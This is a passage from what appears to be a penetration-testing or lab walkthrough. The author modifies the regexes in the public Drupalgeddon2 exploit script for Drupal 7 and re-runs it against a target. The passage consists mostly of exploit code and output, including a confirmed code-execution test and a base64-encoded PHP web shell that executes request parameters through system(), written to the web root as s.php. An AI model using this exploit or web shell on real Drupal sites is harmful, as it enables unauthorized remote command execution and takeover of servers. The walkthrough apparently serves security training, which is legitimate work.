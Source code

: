 Currently, the script contains a single regex to identify the version number: `/Drupal (.*),/`. We can add two additional regexes - one for each of the above PHP statements, respectively.

```ruby
...
    $drupalverion = response.body.match(/VERSION\', \'([0-9]\.[0-9]{1,2})\'/).to_s.slice(/VERSION\', \'([0-9]\.[0-9]{1,2})\'/, 1).to_s.strip
    $drupalverion = response.body.match(/DRUPAL.*, \'([0-9]\.x)\'/).to_s.slice(/DRUPAL.*, \'([0-9]\.x)\'/, 1).to_s.strip if $drupalverion.empty?
    $drupalverion = response.body.match(/Drupal (.*),/).to_s.slice(/Drupal (.*),/, 1).to_s.strip if $drupalverion.empty?
...
```

Let's re-run the exploit,

```bash
root@kali:Exploit$ ruby 44449.rb http://example.net/jabc/
ruby: warning: shebang line ending with \r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://example.net/jabc/
--------------------------------------------------------------------------------
[!] MISSING: http://example.net/jabc/CHANGELOG.txt (404)
[!] MISSING: http://example.net/jabc/core/CHANGELOG.txt (404)
[+] Found  : http://example.net/jabc/includes/bootstrap.inc (200)
[+] Drupal?: 7.26
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo JSRNMUXQ
[+] Result : JSRNMUXQ
[{"command":"settings","settings":{"basePath":"\/jabc\/","pathPrefix":"","ajaxPageState":{"theme":"black","theme_token":"0pHnAh8gXGfhERMGgedKdhvov6luJGt0eyQTJj9xTjA"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"\u003Cdiv class=\u0022messages error\u0022\u003E\n\u003Ch2 class=\u0022element-invisible\u0022\u003EError message\u003C\/h2\u003E\n \u003Cul\u003E\n  \u003Cli\u003E\u003Cem class=\u0022placeholder\u0022\u003ENotice\u003C\/em\u003E: Undefined index: #value in \u003Cem class=\u0022placeholder\u0022\u003Efile_ajax_upload()\u003C\/em\u003E (line \u003Cem class=\u0022placeholder\u0022\u003E262\u003C\/em\u003E of \u003Cem class=\u0022placeholder\u0022\u003E\/var\/www\/html\/jabc\/modules\/file\/file.module\u003C\/em\u003E).\u003C\/li\u003E\n  \u003Cli\u003E\u003Cem class=\u0022placeholder\u0022\u003ENotice\u003C\/em\u003E: Undefined index: #suffix in \u003Cem class=\u0022placeholder\u0022\u003Efile_ajax_upload()\u003C\/em\u003E (line \u003Cem class=\u0022placeholder\u0022\u003E280\u003C\/em\u003E of \u003Cem class=\u0022placeholder\u0022\u003E\/var\/www\/html\/jabc\/modules\/file\/file.module\u003C\/em\u003E).\u003C\/li\u003E\n \u003C\/ul\u003E\n\u003C\/div\u003E\n","settings":{"basePath":"\/jabc\/","pathPrefix":"","ajaxPageState":{"theme":"black","theme_token":"0pHnAh8gXGfhERMGgedKdhvov6luJGt0eyQTJj9xTjA"}}}]
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }[{"command":"settings","settings":{"basePath":"\/jabc\/","pathPrefix":"","ajaxPageState":{"theme":"black","theme_token":"Wcoww1A7RocAUFRXLWMCYEnHvZhsgVY-Z01AlhjKmxo"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"\u003Cdiv class=\u0022messages error\u0022\u003E\n\u003Ch2 class=\u0022element-invisible\u0022\u003EError message\u003C\/h2\u003E\n \u003Cul\u003E\n  \u003Cli\u003E\u003Cem class=\u0022placeholder\u0022\u003ENotice\u003C\/em\u003E: Undefined index: #value in \u003Cem class=\u0022placeholder\u0022\u003Efile_ajax_upload()\u003C\/em\u003E (line \u003Cem class=\u0022placeholder\u0022\u003E262\u003C\/em\u003E of \u003Cem class=\u0022placeholder\u0022\u003E\/var\/www\/html\/jabc\/modules\/file\/file.module\u003C\/em\u003E).\u003C\/li\u003E\n  \u003Cli\u003E\u003Cem class=\u0022placeholder\u0022\u003ENotice\u003C\/em\u003E: Undefined index: #suffix in \u003Cem class=\u0022placeholder\u0022\u003Efile_ajax_upload()\u003C\/em\u003E (line \u003Cem class=\u0022placeholder\u0022\u003E280\u003C\/em\u003E of \u003Cem class=\u0022placeholder\u0022\u003E\/var\/www\/html\/jabc\/modules\/file\/file.module\u003C\/em\u003E).\u003C\/li\u003E\n \u003C\/ul\u003E\n\u003C\/div\u003E\n","settings":{"basePath":"\/jabc\/","pathPrefix":"","ajaxPageState":{"theme":"black","theme_token":"Wcoww1A7RocAUFRXLWMCYEnHvZhsgVY-Z01AlhjKmxo"}}}]
```
